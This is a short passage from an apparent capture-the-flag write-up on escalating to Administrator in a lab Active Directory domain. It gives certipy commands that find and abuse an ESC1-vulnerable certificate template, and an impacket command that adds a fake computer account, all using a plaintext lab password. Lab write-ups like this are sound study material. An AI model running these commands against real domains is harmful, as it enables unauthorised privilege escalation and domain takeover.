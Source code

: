 # Shell as Administrator

Based on what we have on Ansible directory in the share now, I think the next thing is to enumerate **`ADCS`**.

## ADCS

I use **`certipy`** to search for for vulnerable templates.

```bash
certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222  -vulnerable
```

![image.png](image%2012.png)

```bash
certipy req -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -dns authority.authority.htb -template CorpVPN -upn 'Administrator@authority.htb'
```

Create a fake computer

```bash
impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -computer-name fakeComputer -computer-pass '12345678'
```

![image.png](image%2013.png)

There is a template name **`CorpVPN`** vulnerable to **`ESC1`** 
